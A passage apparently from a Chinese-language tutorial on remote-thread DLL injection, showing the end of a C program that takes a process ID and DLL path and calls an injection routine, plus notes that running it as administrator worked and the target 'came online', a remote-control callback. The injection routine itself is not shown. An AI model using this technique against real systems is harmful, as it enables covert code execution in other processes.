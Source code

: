 ```c
		return 0;
	}
    //接收参数
	int processID = atoi(argv[1]);
	char* buffer = argv[2];
	
	strcpy_s(string_inject, buffer);
	printf("[!]InjectDll path %s\n", string_inject);

	if (!Injection(processID, string_inject))
	{
		printf("[!]InjectDll error \n");
		return 1;
	}

	printf("[+]InjectDll success\n");
	return 0;
}
```

编译

![image-20230209143358487](RemoteThreadInjection.assets/image-20230209143358487.png)

用管理员权限执行程序：

![image-20230209173216231](RemoteThreadInjection.assets/image-20230209173216231.png)

成功提权（开启权限，不是提权），并上线

![image-20230209143459174](RemoteThreadInjection.assets/image-20230209143459174.png)



以上函数都可以直接调用原型函数执行，如 Ntxxxxx
